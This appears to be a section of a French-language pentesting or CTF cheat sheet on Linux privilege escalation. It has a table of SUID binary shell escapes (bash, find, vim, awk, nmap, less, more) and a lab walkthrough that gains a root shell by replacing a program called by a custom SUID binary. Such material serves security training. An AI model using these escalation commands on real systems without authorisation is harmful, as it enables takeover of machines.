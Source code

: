 
## 🛠️ 7. Techniques d'escalade courantes

### SUID Exploitation
| Binaire | Technique |
|---------|-----------|
| `/bin/bash` | `bash -p` |
| `/bin/sh` | `sh -p` |
| `/usr/bin/find` | `find . -exec /bin/sh -p \; -quit` |
| `/usr/bin/vim` | `:!sh` ou `:set shell=/bin/sh` puis `:shell` |
| `/usr/bin/awk` | `awk 'BEGIN {system("/bin/sh -p")}'` |
| `/usr/bin/nmap` | `nmap --interactive` puis `!sh` |
| `/usr/bin/less` | `less /etc/passwd` puis `!/bin/sh` |
| `/usr/bin/more` | `more /etc/passwd` puis `!/bin/sh` |

### Exploitation de programmes SUID personnalisés

#### Exemple pratique : Binary Hijacking (Lab)
```bash
# 1. Identifier le binaire SUID
ls -l welcome
# -rwsr-xr-x 1 root root 8760 Nov 14  2024 welcome

# 2. Vérifier le type de fichier
file welcome
# welcome: ELF 64-bit LSB executable, x86-64

# 3. Analyser le binaire avec strings
strings welcome
# Rechercher des appels de programmes externes
# Résultat: le binaire appelle "greetings"

# 4. Exploitation par remplacement du binaire appelé
# Supprimer le binaire original
rm greetings

# Remplacer par /bin/bash
cp /bin/bash greetings

# 5. Exécuter le binaire SUID vulnérable
./welcome
# → Shell root obtenu !

# 6. Vérifier l'escalade
whoami
# root

# 7. Collecter le flag
cat /root/flag
# Flag: b92bcdc876d52108778e2d81f3b01494
```
